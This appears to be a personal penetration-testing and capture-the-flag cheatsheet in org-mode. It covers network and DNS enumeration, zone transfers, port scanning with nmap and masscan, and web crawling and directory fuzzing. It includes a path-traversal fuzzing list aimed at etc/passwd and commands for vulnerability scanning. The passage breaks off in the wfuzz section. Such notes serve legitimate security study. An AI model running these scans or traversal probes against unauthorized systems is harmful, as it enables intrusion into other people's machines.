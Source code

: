 :PROPERTIES:
:ID:       6856336f-2018-45e7-9d26-a12fa3ee6a6b
:END:
#+title: ftf-hacksheet

- Forget The Flag Hacksheet

* Cheatsheets
** Cheat.sh
   - [[https://github.com/chubin/cheat.sh][Site]] - CLI, [[https://github.com/chubin/cheat.sh/blob/master/doc/standalone.md][local]] and [[https://cheat.sh][online]] cheatsheet:
     #+begin_src sh
       # Single query
       cht.sh go reverse a list

       # Interactive mode
       cht.sh --shell

       go reverse a list

       # Tool specific search
       cd go

       reverse a list

       # Copy last result without comments
       ccopy

       # Search
       /~<keyword>   # One level search
       /~<keyword>/i # One level insensitive
       /~<keyword>/b # One level word-bound
       /~<keyword>/r # Recursive search

       # Auto-query using clipboard changes
       stealth  # Add Q for commands-only
     #+end_src
** tldr
   - [[https://github.com/tldr-pages/tldr][Site]] - CLI - Simplified man pages:
     #+begin_src sh
       tldr <tool>
     #+end_src

* Network Enumeration
** IP
*** Find External IP
**** Dig
      - By querying Google's NS:
        #+begin_src sh
          dig TXT +short o-o.myaddr.l.google.com @ns1.google.com
        #+END_src
**** openssl s_client
      - By asking ipecho.net:
        #+begin_src sh
          echo -ne "GET /plain HTTP/1.0\r\nHost: ipecho.net\r\n\r\n" | openssl s_client -connect ipecho.net:443 -verify_quiet -quiet 2>/dev/null | sed -n '${G;P}'
        #+end_src
*** Find Internal IP
**** Local Subnet
      #+begin_src sh
        sed -n '/[[:digit:]]/{:a;N;/LOCAL/!{D;ba};/ 127.0.0/d;s/^[^[:digit:]]*\|.\n.*//gp;q}' /proc/net/fib_trie
      #+end_src
**** Get the eth0 Gateway
      #+begin_src sh
        # TODO - Modify to use in scripts
        awk '/eth0/&&$3{split($3,a,"");while(i++<8)printf"%d.","0x"a[9-++i]a[10-i];print"\b ";exit}' /proc/net/route
      #+end_src
** DNS and Hostname
*** Domain Resolution
**** Perl
     - Core Perl - IPv4
       #+begin_src sh
         perl -MSocket -E 'say+inet_ntoa+inet_aton"<domain>"'
       #+end_src
     - Core Perl - IPv6
       #+begin_src sh
         perl -mSocket -E '$_?say+Socket::inet_ntop+10,unpack+x8a16,$$_{addr}:""for+Socket::getaddrinfo"<domain>","",{socktype,3,family,10}'
         # See below the meaning of magic numbers
       #+end_src
     - Core Perl - Reverse Resolution
       #+begin_src sh
         # Use AF_INET6 for IPv6
         perl -MSocket -E '$_?say+Socket::getnameinfo$$_{addr},"",Socket::NIx_NOSERV:""for+Socket::getaddrinfo"<ip>","",{socktype,SOCK_RAW,flags,Socket::AI_NUMERICHOST,family,AF_INET4}'
       #+end_src
*** Sub-Network Resolution
    - Locate all possible DNS servers in the network:
      #+begin_src sh
        # Use -sS for alternate TCP scan
        # Maybe use 54,443 in a second round
        nmap -sU -sV --open --reason -T4 --min-rate=1000 -Pn -oG dns.grep -p 53,5353 10.0.0.1/24
      #+end_src
    - Find which of the possible DNSs obtained before are legit and their hostname:
      #+begin_src sh
        # Replace -U with -T for TCP ports
        # Change -W <timeout> and -P <procs>
        # if unreliable results
        awk '/\/open/{gsub(" [0-9]+", "& " $2 " " $2 "\n"); gsub("/open[^,]*,?|.*Ports:",""); print}' dns.grep | xargs -n 3 -P 0 -- host -U -W1 -p | awk '!/timed out|^$|end of file/; /arpa/{print ""}' | tee dnses.txt
      #+end_src
    - Find the domain names of all the machines in the network using the detected DNS (machines without a name won't be listed):
      #+begin_src sh
        # Reminder: test TCP DNSs with -T
        awk -F' |#' '/#/{print $2, $3}' dnses.txt | while read dns port; do seq 254 | xargs -I{} -P 0 -- host -U -W1 -p${port} "${dns%.*}".{} ${dns}; done | sed -n '/domain name/{s/\([0-9]\+\.\)\([0-9]\+\.\)\([0-9]\+\.\)\([0-9]\+\.\)/\4\3\2\1/;s/\.in.* \|\.$/ /gp}' | sort -t. -k4 -nu | column -t
      #+end_src
    - Obtain the hostname of a Domain Controller with ~nslookup~:
      #+begin_src bat
        nslookup

        set type=all
        _ladp._tcp.dc._msdcs.<domain>
      #+end_src
*** Zone Transfer
**** Notes
     - Attempt to perform them especially if there are servers with TCP port 53 (or 5353) open
**** Identify
***** Host
      - Address complete lookup:
        #+begin_src sh
          # Non-standard port with -p <port>
          host -t ANY <ip> [<dns>]
          # -t NS to only show nameservers

          # Using the "all" flag
          host -a <ip> [<dns>]
        #+end_src
      - List all the records in the zone:
        #+begin_src sh
          host -l -t ANY <hostname> [<dns>]
          # -t NS to only show nameservers

          # Using the "all" flag
          host -l -a <hostname> [<dns>]
        #+end_src
***** NSlookup
      - Hostname resolution:
        #+begin_src sh
          nslookup

          server <dns>
          <ip>
          # Hostname returned
        #+end_src
      - List all the records in the zone:
        #+begin_src sh
          nslookup

          server <dns>
          set q=any
          # Also try: set type=NS
          <hostname>
        #+end_src
***** Dig
      - Hostname resolution:
        #+begin_src sh
          # Add +search to read resolv.conf
          dig @<dns> <ip>
          # Add +short for compact output

          # Reverse resolution
          dig @<dns> -x <ip>
        #+end_src
      - ANY details:
        #+begin_src sh
          # Add +tcp or +notcp to use TCP/UDP
          dig @<dns> -4 <ipv4> ANY +nocmd +recurse +unexpected +fail +additional
          # Use NS to show nameservers only
          # Add +nssearch to search for names
        #+end_src
      - Perform Zone Transfer:
        #+begin_src sh
          # Can use -q <hostname> instead
          dig @<dns> <hostname> AXFR
          # Can use -t AXFR instead
        #+end_src
*** Bruteforce
**** Dictionaries
     - Use the [[https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS][SecLists]]:
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/DNS/subdomains-top1million-110000.txt][top1million]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/DNS/bitquark-subdomains-top100000.txt][bitquark]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/DNS/deepmagic.com-prefixes-top50000.txt][deepmagic]]
**** Ffuf
     - [[https://github.com/ffuf/ffuf][Site]] - Most flexible fuzzer:
       #+begin_src sh
         ffuf -u https://FUZZ.<domain> -c -ac -w <domlist>
         # Use -s to only show results
         # See URL Enumeration for more info

         # vhost discovery
         ffuf -u https://<ip> -H "Host: FUZZ.<domain>" -c -ac -w <domlist>
         # Don't forget to also try HTTP
       #+end_src
**** Gobuster
     - [[https://github.com/OJ/gobuster][Site]] - Dir/File/DNS/VHost fuzzer:
       #+begin_src sh
         gobuster dns -t 30 -d <domain> -w <wlist>
         # Use -z to hide the progress with
         # See URL Enumeration for more info
       #+end_src
*** Hosts
    - Those domains found in certificates without DNSs to resolve shall be added to ~/etc/hosts~:
      #+begin_src conf
        <ip> <hostname1> <hostname2>...
      #+end_src
*** Change DNS
**** Systemd-resolved
     - Add new DNS and domain:
       #+begin_src sh
         # Add DNS
         resolvectl dns <iface> <dns-ip>

         # State domains to resolve
         resolvectl domain <iface> <domain>
         # Domain can be "local", "htb", etc
       #+end_src
**** Resolv.conf
     - Note that I couldn't get this to work, maybe because of a lack of ~search <domain>~ before ~nameserver~
     - Add new DNS:
       #+begin_src sh
         # Note that resolv.conf gets edited
         # by nm, resolvconf, etc
         echo 'nameserver <dns-ip>' >> /etc/resolv.conf
         # Note that options are usually
         # required to resolve with all DNSs
       #+end_src
**** NetworkManager
     - Note that I couldn't get this to work, maybe because I didn't specify the domain to be searched by the conn
     - Add new DNS and DNS options:
       #+begin_src sh
         # Find <connection-name>
         nmcli con show

         # Add DNS
         nmcli con mod <connection-name> +ipv4.dns "<dns-ip>"

         # Add DNS options
         nmcli con mod <connection-name> +ipv4.dns-options rotate

         nmcli con mod <connection-name> +ipv4.dns-options timeout:1

         nmcli con mod <connection-name> +ipv4.dns-options retries:1

         # Reload connection
         nmcli con reload <connection-name>
       #+end_src
** Ping
   - Batch ping-sweep:
     #+begin_src bat
       for /L %i in (1,1,255) do @ping -n 1 -w 200 10.0.0.%i > nul && echo 10.0.0.%i is up
     #+end_src
** Ports
*** Scan
**** Nmap
     - Quick TCP - Top 100 ports - SYN Scan:
       #+begin_src sh
         # -T<0-5> Timing of the scan
         # -T0 -> slowest | -T5 fastest
         # Improve results by lowering -T
         # -T4 is good enough for fast networks
         # -T3 is the default
         # -T2 and less for cautious
         # Figuring --min-rate is a priority
         # Use --max-rate 5 if WAF blocks IP with
         #  --scan-delay 5ms --max-scan-delay 6ms
         # -sT for CONNECT scan
         # Ignore Windows ports above 49152
         # Remove -n to resolve <hostname>
         nmap -sS -n -sV -Pn --open --reason -T4 --min-rate=5000 --top-ports=100 -oG <name>-100-tcp.gnmap <ip/hostname>
         # Try CONNECT scan if no results
       #+end_src
     - Full TCP - all ports - SYN Scan:
       #+begin_src sh
         # -sT for CONNECT scan
         nmap -sS -n -sV -Pn --open --reason -T4 --min-rate=5000 -p- -oG <name>-all-tcp.gnmap <ip/hostname>
         # Try CONNECT scan if no results
       #+end_src
     - Quick UDP - Top 50 ports:
       #+begin_src sh
         # --min-rate is always less for UDP
         nmap -sU -n -sV -Pn --open --reason -T4 --min-rate=1000 --top-ports=50 -oG <name>-50-udp.gnmap <ip/hostname>
         # If only open|filtered:
         #  Remove -sV unless scan was fast
       #+end_src
     - Print hosts with their open ports using nmap grep output:
       #+begin_src sh
         awk '/\/open/{gsub("/open[^,]*,?",""); match($0,"[0-9 ]+$"); print $2 substr($0,RSTART)}' <scan>.gnmap
       #+end_src
     - Update scripts:
       #+begin_src sh
         nmap --script-updatedb
       #+end_src
     - Default scripts + Deep fingerprint:
       #+begin_src sh
         # -sT for CONNECT scan
         # -sU for UDP scan
         # Provide both -sS and -sU along
         # with -p U:<udp-port>,T:<tcp-port>
         nmap -sS -n -sV -sC -A --open --reason -Pn -T4 --min-rate=1000 -p<ports> <ip/hostname>
       #+end_src
     - Vulnerable scripts:
       #+begin_src sh
         # -sT for CONNECT scan
         # -sU for UDP scan
         # Provide both -sS and -sU along
         # with -p U:<udp-port>,T:<tcp-port>
         nmap -sS -n -sV --open -Pn -T4 --min-rate=1000 --script=vuln -p<ports> <ip/hostname>

         # Vuln scripts not in the vuln pack
         nmap -sS -n -sV --open -Pn -T4 --min-rate=1000 --script=\*vuln\* -p<ports> <ip/hostname>
       #+end_src
     - ? ports accessible with netcat:
       #+begin_src sh
         # Note how long it takes nc to conn
         time nc -nv <ip> <port>
         # echo quit | time nc ... to measure

         # Edit nmap/nmap-service-probes
         locate nmap-service-probes

         # Set totalwaitms to the nc time
         # Also alter the NSE scripts timeout
         # or add the appropriate script-args
         nmap -sS -n -sV -sC --open -Pn -T4 --min-rate=1000 -p<?ports> <ip/hostname>
         # --script-timeout=<t> ends after t
       #+end_src
     - Full UDP - all ports - Really slow:
       #+begin_src sh
         # Only use -sV with open ports
         nmap -sU -n -Pn --open --reason -T4 --min-rate=1000 -p- -oG <name>-all-udp.gnmap <ip/hostname>
       #+end_src
     - Segmented scan over SOCKS tunnel:
       #+begin_src sh
         # Using tun2socks for improvement
         sudo -v; seq 100 100 65535 | while read ports; do sudo nmap -sS -n -sV -Pn --open --reason -T4 --min-rate=5000 -p$((ports - 100))-$ports -oG tun-100-tcp.gnmap -e tun10 <ip> 2>&1; cat tun-100-tcp.gnmap >> tun-all-tcp.gnmap; sleep 2; done | stdbuf -i0 -o0 awk '/open/ && !/tcpwrapped/' | tee out.nmap
         # chisel was used as SOCKS mechanism
       #+end_src
**** Masscan
     - Install the [[https://www.ntop.org/guides/pf_ring/zc.html#supported-cards][Zero Copy driver]] if your card supports it and check for it:
       #+begin_src sh
         # Check if the driver is identified
         masscan --iflist
         # If your iface has the PFRING id
         # you can add the --pfring flag
         # To the scans
       #+end_src
     - Scan all TCP ports:
       #+begin_src sh
         masscan -e <iface> --rate=5000 -p1-65535 --interactive -oG <name>-all-tcp.gmscan <ip/hostname>
         # You can add --retry 2 or lower the
         # rate to make it more accurate
       #+end_src
     - Scan all UDP ports:
       #+begin_src sh
         masscan -e <iface> --rate=1000 -pU:1-65535 --interactive -oG <name>-all-udp.gmscan <ip/hostname>
       #+end_src
     - Print hosts with their open ports using masscan grep output:
       #+begin_src sh
         sort -k4 <scan>.gmscan | awk -F'\\s|/' '/open/{if(ip != $4){if(ip){print ""};ip=$4;p=ip}; printf "%s %s", p, $7; p=""} END{print ""}'
       #+end_src
**** Bash
     - Find open ports using bash:
       #+begin_src sh
         seq 65535 | xargs -I {} timeout .2 bash -c ": > /dev/tcp/10.0.0.1/{}; echo {}"
       #+end_src
*** Banners
**** Netcat
     - Grab the banners and interact with the service:
       #+begin_src sh
         # Add -C for adding carriage return
         nc -nv <ip> <port>
       #+end_src
** Traffic Capture
*** tcpdump
    - Capture all traffic from an iface:
      #+begin_src sh
        # Filter to a given ip + port exclude
        tcpdump -i <iface> host <ip> and not tcp port <port>
      #+end_src
    - Detect remote open ports if a firewall is in the way with ~ncat~:
      #+begin_src sh
        # In remote machine (also -u for UDP)
        seq 65535 | xargs -P 0 -I{} ncat -p {} -w 1 <lip> <lport> 2>/dev/null
        # <lip> is the machine with tcpdump
       #+end_src
    - The same can be achieved with ~socat~ using SOCKS/TCP4 with ~sourceport=port~, ~socksport=port~, or ~bind=:<port>~, and maybe ~reuseaddr~ - TODO
** Website / URL
*** Discovery
**** Nmap
     - ~nmap --script=http-enum~
**** Dirhunt
     - [[https://github.com/Nekmo/dirhunt][Site]] - Interesting files ([[https://docs.nekmo.org/dirhunt/usage.html#flags][Flags]]):
       #+begin_src sh
         # Int files: -f <file1>,<file2>...
         # Int extensions: -e <php>,<js>...
         dirhunt --limit 0 http://<ip>/
         # Exclude -x <flags>:
         # -x http,not_found,index_of,300-500
       #+end_src
**** gospider
     - [[https://github.com/jaeles-project/gospider][Site]] - Fast spider written in go:
       #+begin_src sh
         # Crawl dom+subdomains indefinetely
         gospider -s <url> -d 0 --sitemap -w
         # --json - JSON output
       #+end_src
     - Non-duplicated sites clean output - proxy
       #+begin_src sh
         gospider -s <url> -p http://<proxy:p> -d 0 --sitemap -w | awk '!x[$NF]++{print $NF}'
         # Filter -> Prepend /<site>/&& to awk
       #+end_src
     - Or with json + cookies - no subdomains:
       #+begin_src sh
         gospider -s <url> --cookie 'a=b; c=d' -d 0 --sitemap --json | jq -r '.output' | awk '!x[$0]++'
         # --whitelist-domain=<regex> - Dom only
       #+end_src
**** hakrawler
     - [[https://github.com/hakluke/hakrawler][Site]] - Wayback Machine crawler:
       #+begin_src sh
         hakrawler -u <<< "<url>"
         # -u     - Show unique URLs only
         # -d <n> - Depth to crawl, defaults to 2
         # -subs  - Also crawl subdomains
       #+end_src
**** Photon
     - [[https://github.com/s0md3v/Photon][Site]] - OSINT crawler ([[https://github.com/s0md3v/Photon/wiki/Usage#piping-writing-to-stdout][stdout values]]):
       #+begin_src sh
         # Crawl site - show same-domain URL:
         photon.py -u 'http://<ip-hostname>' --only-urls -t 5 -l 999 --stdout=internal
         # Exclude: --exclude='/manual[1|2]'

         # Scrap content based on regex:
         photon.py -u 'http://<ip-hostname>' -t 5 -l 999 --stdout=custom -r 'https?://[A-z0-9\._\/\-?=]+'

         # Find high entropy secrets:
         photon.py -u 'http://<ip-hostname>' -t 5 -l 999 --keys --stdout=keys
         # Check <ip-hostname>/{intel,files}

         # Locally clone the site:
         photon.py -u 'http://<ip-hostname>' -t 5 -l 999 --clone
         # Check --ninja and --wayback flags
       #+end_src
     - For self-signed certs errors, find all instances of ~requests.get()~ and add ~, verify=False~ as last param - [[https://github.com/s0md3v/Photon/issues/156][Ref]]
       #+begin_src sh
         # Execute in the Photon folder
         grep -r 'requests.get(' | cut -d: -f1 | xargs -I{} sed -i 's/\(requests.get(.*\)\([,)]\)/\1, verify=False\2/' {}
       #+end_src
**** Maryam
     - [[https://github.com/saeeddhqan/maryam][Site]] - OSINT Data collector Framework:
       #+begin_src sh
         # Extract based on regex
         maryam -e crawl_pages -d <ip-host> -r 'https?://[A-z0-9\._\/\-?=]+' --thread 5 --limit 999 --more
         # Check the --wayback flag
         # Use crawler to simply crawl
       #+end_src
**** Evine
     - [[https://github.com/saeeddhqan/evine][Site]] - Interactive Web Crawler:
       #+begin_src sh
         # Press Enter & Ctrl+Space to search
         evine -robots -sitemap -depth 999 -url http://<ip-hostname>
         # Tab move | CtrlS save | CtrlZ exit

         # Query field
         <ext>      # Show all files.<ext>
         all        # Show all findings
         url        # Show in-scope URLs
         all_urls   # Out-scope URLs
         query_urls # In-scope URLs with ?q=
         script/css # JavaScript/CSS files
         cdn        # CDN files
         comment    # HTML comments
         media      # Non-web files: PNG, ZIP
         phone      # Phone numbers from href
         email      # In/Out-scope emails
         network    # Social Media IDs/links
         dns        # Subdomains of the site
         <jquery>   # Obtain selector content
         # Example: $("a").attr("href")
       #+end_src
     - [[https://www.w3schools.com/jquery/jquery_ref_html.asp][JQuery selector methods]]
**** Wappalyzer
     - [[https://github.com/AliasIO/Wappalyzer][Site]]/[[https://www.npmjs.com/package/wappalyzer][npm]] - Identify Web Technologies:
       #+begin_src sh
         # -a <User-Agent> | -P  Pretty JSON
         wappalyzer <url> -p -r -P
         # -D/-m  Max depth/urls
       #+end_src
**** Arjun
     - [[https://github.com/s0md3v/Arjun][Site]] - HTTP parameters discovery
       #+begin_src sh
         arjun -u '<url>'
         # -i <file>    - Multiple URLs
         # -m <method>  - GET/POST/XML/JSON
         # --stable     - Use when unstable
         # --passive [] - Use Wayback, etc
         # -w <file>    - Use custom wordlist
         # -oB [<port>] - Proxy to Burp
       #+end_src
*** Bruteforce
**** Dictionaries
     - Use the [[https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content][SecLists]]:
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/common.txt][common.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/RobotsDisallowed-Top1000.txt][RobotsDisallowed-Top1000.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/Logins.fuzz.txt][Logins.fuzz.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/Passwords.fuzz.txt][Passwords.fuzz.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/Common-DB-Backups.txt][Common-DB-Backups.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/quickhits.txt][quickhits.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/dirsearch.txt][dirsearch.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/big.txt][big.txt]]
     - [[https://github.com/six2dez/OneListForAll/raw/main/onelistforallmicro.txt][onelistforallmicro.txt]] as extra
     - All in one without repeats:
       #+begin_src sh
         awk '!x[$0]++' *.txt > all.txt

         # Order not preserved
         sort -u *.txt > all.txt
       #+end_src
     - Separate non-extensions vs extensions:
       #+begin_src sh
         grep -v '%EXT%' all.txt > no-ext-all.txt

         grep '%EXT%' all.txt > ext-all.txt
       #+end_src
     - Or all without repeats and ~%EXT%~:
       #+begin_src sh
         awk '{gsub(/\.?%EXT%\.?/,"")}!x[$0]++' *.txt > all.txt

         # sed+sort variant - order not preserved
         sed 's/\.\?%EXT%\.\?//' *.txt | sort -u > all.txt
       #+end_src
     - Followed by some Web App/Server specific (Windows/Linux, IIS/Apache...) + [[https://gitlab.com/kalilinux/packages/dirb/-/tree/kali/master/wordlists][dirb ones]]
       - Apache:
         - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/Apache.fuzz.txt][Apache.fuzz.txt]]
         - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/ApacheTomcat.fuzz.txt][ApacheTomcat.fuzz.txt]]
         - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/apache.txt][apache.txt]]
         - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/tomcat.txt][tomcat.txt]]
       - IIS:
         - [[https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/iisfinal.txt][iisfinal.txt]]
     - Remove previously used items from dict:
       #+begin_src sh
         # Using bash/zsh pipes
         comm -23 <new-dup> <(sort -u <old-1> <old-2>) > <new-clean>
       #+end_src
     - If case is ignored, lowercase all:
       #+begin_src sh
         tr '[:upper:]' '[:lower:]' < <dict>
       #+end_src
     - Remove leading slashes if duplicates:
       #+begin_src sh
         sed 's,^/\+,,' <dict>
       #+end_src
     - Check the behavior of trailing slashes
       - If some dirs with slashes return ~40x~ errors but are redirected without them, remove them all:
         #+begin_src sh
           sed 's,/\+$,,' <dict>
         #+end_src
       - If only trailing slashes identify dirs, append a slash to items without .ext:
         #+begin_src sh
           sed 's,/\+$,,;/\..\+$/!s,$,/,' <dict>
         #+end_src
       - If some/all dirs without slashes get redirected, duplicate all with both:
         #+begin_src sh
           sed '/\/\+$/{p;s///}' <dict>
         #+end_src
     - Use such rules with the following dictionaries as the next step:
       - [[https://github.com/six2dez/OneListForAll/raw/main/onelistforallshort.txt][onelistforallshort.txt]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/raft-large-directories.txt][raft-large-dirs.txt]] ([[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/raft-large-directories-lowercase.txt][lowercase]])
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/raft-large-files.txt][raft-large-files.txt]] ([[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/raft-large-files-lowercase.txt][lowercase]])
     - Use [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/directory-list-2.3-big.txt][dirs-big.txt]] as ext template for ~html~, ~txt~, ~conf~ + jsp/php/cgi or run:
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/raft-large-extensions.txt][raft-large-extensions.txt]] ([[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/raft-large-extensions-lowercase.txt][lower]])
       - [[https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt][web-extensions.txt]]
     - Make ~dirsearch~ ~%EXT%~ compatible:
       #+begin_src sh
         sed '/\..\+$/!{s,/\+$,,;s,$,%EXT%,;}'
       #+end_src
     - Make ~dirsearch~ ~%NOFORCE%~ compatible:
       #+begin_src sh
         sed '/\..\+$/s,$,%NOFORCE%,'
       #+end_src
     - You may want to go back to ~nmap~ and execute all the ~*vuln*~ scripts and those Web App/Server specific before continuing
     - As last resort (+ lowercase versions):
       - [[https://github.com/berzerk0/Probable-Wordlists/tree/master/Dictionary-Style/Technical_and_Default][ProbableWL]] <- Only random sites
       - [[http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2][rockyou.txt]] <- Only random sites
       - [[https://github.com/six2dez/OneListForAll][OneListForAll]] <- Desperate
       - [[https://gist.github.com/jhaddix/86a06c5dc309d08580a018c66354a056][all-wordlist.txt]]
     - Use if LFI has been identified:
       - [[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt][LFI-Jhaddix.txt]] - Generic
       - [[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt][LFI-LFISuite-pathtotest-huge.txt]] - Big
       - [[https://github.com/danielmiessler/SecLists/raw/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt][LFI-gracefulsecurity-linux.txt]] - Linux
       - [[https://github.com/danielmiessler/SecLists/raw/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt][LFI-gracefulsecurity-windows.txt]] - Win
     - LFI - Create fuzzing files for ffuf/wfuzz:
       - ~paths.txt~
         #+begin_src text
           ../
           ../../
           ../../../
           ../../../../
           ../../../../../
           ../../../../../../
           ../../../../../../../
         #+end_src
       - ~files.txt~
         #+begin_src text
           file1.txt
           file2.conf
           etc/passwd
         #+end_src
**** Ffuf
     - [[https://github.com/ffuf/ffuf][Site]] - Most flexible fuzzer ([[https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html][Ref]]):
       #+begin_src sh
         # FUZZ will be the param subtituted
         ffuf -u <url>/FUZZ -c -ac -ic -w <wlist>
         # -c - color
         # -ac - Auto-calibrate filters
         # -ic - Ignore comments in <wlist>
         #
         # -r - Follow redirects
         # -ignore-body - Don't fetch body
         # -acc <str> - Custom-auto-calibrate
         # -t <threads> - 40 by default
         # -s - Silent mode - results only
         # -v - Full URLs and redirects
         # -o <file> - Save results to file
         # -or - Don't create file if empty
         # -of <output-format> - json/md/csv
         # -od <output-directory>
         #
         # <ENTER> to enter interactive-mode
         #  help | resume/ENTER | [queue]show
         #  fc/fl/fw/fs <value> | restart
         #
         # -noninteractive - Disable int-mode

         # Fuzz rate limited with variable delay
         ffuf -u <url>/FUZZ -t 4 -p '0.5-0.6' -rate 5 -c -ac -ic -w <wlist>
         # -p <delay> - Fixed or variable

         # Fuzz multiple domains
         ffuf -u 'https://DOM/WLIST' -ac -sf -c -w <domlist>:DOM -w <wlist>:WLIST
         # -sf - Stop when HTTP 403 > 95%

         # Fuzz params with reflective match
         ffuf -u <url>/?PARAM=VAL -mr "VAL" -c -w <paramlist>:PARAM,<valist>:VAL
         # -m pitchfork - Try same line wlist
         #   Line 1 param -> Line 1 val
         #   Line 2 param -> Line 2 val...

         # Fuzz extensions recursively
         ffuf -u <url>/FUZZ -c -ic -w <wlist> -recursion -e .bak,.zip
         # -D - DirSearch advanced exts mode
         # -recursion-strategy default/greedy

         # Fuzz headers - Custom Auto-filter
         ffuf -u <url> -c -w <vhostlist> -acc 'www' -H 'Host: FUZZ.<domain>'

         # Fuzz cookies through a proxy
         ffuf -u <url> -w <wlist> -x <proxy> -c -b 'admin=FUZZ'
         # -b <cookies> - Cookies ';' delim
         # -x <socks5/http>://<ip> - Proxy to use
         # -replay-proxy <proxy> - Relay

         # Fuzz POST data with PUT method
         ffuf -u <url> -w <wlist> -X PUT -c -d 'user=FUZZ'
         # -X <method> - HTTP method to use
         # -d <data> - POST data | JSON data

         # Fuzz creds from a request capture
         ffuf -request <req> -c -ac -w <ulist>:USER -w <plist>:PASS
         # -request-proto http - Force HTTP
         # -mode pitchfork     - Use for SQLi

         # Filter-out HTTP statuses & length
         ffuf -u '<url>/FUZZ' -c -w <wlist> -fc 500,403,301 -fs 0,1
         # -fc <codes> - HTTP statuses
         # -fs <sizes> - HTTP sizes
         # -fw <count> - Word count
         # -fl <count> - Line count
         # -fr <regex> - Regex

         # Match codes and regex
         ffuf -u '<url>/FUZZ' -c -w <wlist> -mc 200,204 -mr '[aA]dmin|pass'
         # -mc <codes> - HTTP statuses | all
         # -ms <sizes> - HTTP sizes
         # -mw <count> - Word count
         # -ml <count> - Line count
         # -mr <regex> - Regex
       #+end_src
**** Gobuster
     - [[https://github.com/OJ/gobuster][Site]] - Dir/File/DNS/VHost fuzzer:
       #+begin_src sh
         # Pay attention to 405 codes
         gobuster dir -t 30 -u <url> -w <dic>
         # Add --no-error to hide bad urls
         # Use -k to ignore SSL validation
         # Use -b with the codes to ignore
         # Use -s with only the codes to show
         # Use -x with the extensions to test
         # Use -f to add a slash to the words
         # Use -a to set an User-Agent
         # or use --random-agent
         # Use -e to show the full URL match
         # Use -z to hide the progress with
         # the last resort lists as it breaks
         # Increase threads with big lists
         # Use -o to save to file
         # Use -q to hide banner and progress

         # Fuzz HTTP parameters
         gobuster fuzz -u '<url>?FUZZ=test' -w <dic>
       #+end_src
     - [[https://github.com/OJ/gobuster#patterns][Pattern support]]
**** Wfuzz
     - [[https://github.com/xmendez/wfuzz][Site]] - Multi-purpose fuzzer - [[https://wfuzz.readthedocs.io][docs]]
       #+begin_src sh
         # -> Filters may glitch the terminal
         wfuzz -w <wlist> -Z -c '<url>/FUZZ'
